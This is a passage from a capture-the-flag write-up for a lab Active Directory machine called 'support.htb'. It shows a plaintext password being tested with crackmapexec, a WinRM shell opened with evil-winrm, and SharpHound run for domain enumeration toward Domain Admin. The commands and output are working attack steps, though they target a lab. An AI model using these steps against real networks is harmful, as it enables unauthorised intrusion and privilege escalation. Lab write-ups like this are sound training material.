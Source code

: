 ```sh
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb

...Truncated...

```

We can try the given credentials against `crackmapexec` to see if we can get a shell of some sort. 

```
support : Ironside47pleasure40Watchful
```

```sh
$ crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
SMB         support.htb     5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        support.htb     5985   DC               [*] http://support.htb:5985/wsman
WINRM       support.htb     5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

And indeed `cme` tells us that we can use these credentials on `winrm` protocol to get an interactive shell; hence the `(Pwn3d!)` in the output. `evil-winrm` is an excellent tool for the job.

```sh
$ evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'

Evil-WinRM shell v3.4

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> You can get the Desktop\user.txt flag!
```
<br />
<br />

## Path to Domain Admin
> References:
<br />
>[Computer Object Takeover](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) <br />
>[Computer Takeover Attack](https://www.youtube.com/watch?v=RUbADHcBLKg&ab_channel=SpecterOps)

After gaining access to the DC as a low privileged user, the first thing we can do is enumerate for AD attributes and correlate them to figure out a path to become `Domain Admin`. A great tool to help in AD enumeration is a tool called [`BloodHound`](https://github.com/BloodHoundAD/BloodHound). With `Sharphound`, the C# version of Bloodhound, you can enumerate the AD locally, meaning you need to transfer the binary to the DC. 

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./sharphound.exe
2022-09-11T14:29:58.7157403-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
... Truncated ... 
 68 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2022-09-11T14:30:45.2157412-07:00|INFORMATION|SharpHound Enumeration Completed at 2:30 PM on 9/11/2022! Happy Graphing!
*Evil-WinRM* PS C:\Users\support\Documents> 
*Evil-WinRM* PS C:\Users\support\Documents> ls

```